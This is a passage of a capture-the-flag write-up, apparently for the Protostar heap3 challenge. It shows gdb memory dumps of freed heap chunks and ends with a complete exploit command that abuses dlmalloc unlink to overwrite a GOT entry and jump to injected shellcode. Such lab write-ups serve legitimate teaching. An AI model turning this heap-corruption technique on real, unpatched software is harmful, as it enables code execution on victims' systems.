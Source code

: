 :grey_question: Free'd second chunk :grey_question:

```
0x804c000:      0x00000000      0x00000029      0x41414141      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x00000000      0xffffffff      0xffffffff      0xffffffff
0x804c040:      0x04886468      0xffffc308      0x0804b11c      0xfffffff8
0x804c050:      0xfffffffc      0xfffffffc      0xfffffff9      0x0804b194
0x804c060:      0x0804b194      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
```
 - free'd but no fd value because of unlink
 
:grey_question: Free'd first chunk :grey_question:

```
0x804c000:      0x00000000      0x00000029      0x0804c028      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x00000000      0xffffffff      0xffffffff      0xffffffff
0x804c040:      0x04886468      0xffffc308      0x0804b11c      0xfffffff8
0x804c050:      0xfffffffc      0xfffffffc      0xfffffff9      0x0804b194
0x804c060:      0x0804b194      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
```
 - `0x0804c028` saved as fd

:fire: :fire: :fire: Final :fire: :fire: :fire:

```
$ ./heap3 $(python -c 'print "AAAA "+"\xff"*16+"\x68\x64\x88\x04\x08\xc3"+"\xff"*10+"\xfc\xff\xff\xff"*2+" "+"\xff"*4+"\x1c\xb1\x04\x08"+"\x40\xc0\x04\x08"')
that wasn't too bad now, was it? @ 1544818409
```

Have fun! :v: :v: :v:

---
**:muscle: References :muscle:**  

all resources listed here :point_right: [LOL-Fav](http://location-href.com/lol-fav/)  :page_facing_up:

:snowman: Contributed and maintained by [Luna-](https://twitter.com/art0flunam00n)  
:snowflake: Powered by [Legion of LOL](http://location-href.com)
